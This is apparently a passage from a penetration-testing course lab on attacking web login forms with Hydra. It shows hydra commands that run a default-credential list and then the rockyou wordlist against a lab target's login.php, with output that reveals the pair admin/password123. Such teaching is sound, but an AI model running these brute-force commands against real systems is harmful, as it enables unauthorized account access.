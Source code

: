Let's try to use the `ftp-betterdefaultpasslist.txt` list with the default credentials to test if one of the accounts is registered in the web application.

&#x20; Login Form Attacks

```shell-session
root@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) d020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

As we can see, we were not able to identify any working credentials. Still, this only took a few seconds, and we ruled out the use of default passwords. Now, we can move on to use a password wordlist.

***

### Password Wordlist

Since the brute force attack failed using default credentials, we can try to brute force the web application form with a specified user. Often usernames such as `admin`, `administrator`, `wpadmin`, `root`, `adm`, and similar are used in administration panels and are rarely changed. Knowing this fact allows us to limit the number of possible usernames. The most common username administrators use is `admin`. In this case, we specify this username for our next attempt to get access to the admin panel.

&#x20; Login Form Attacks

```shell-session
root@htb[/htb]$ hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'

[PORT][http-post-form] host: 178.35.49.134   login: admin   password: password123
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```
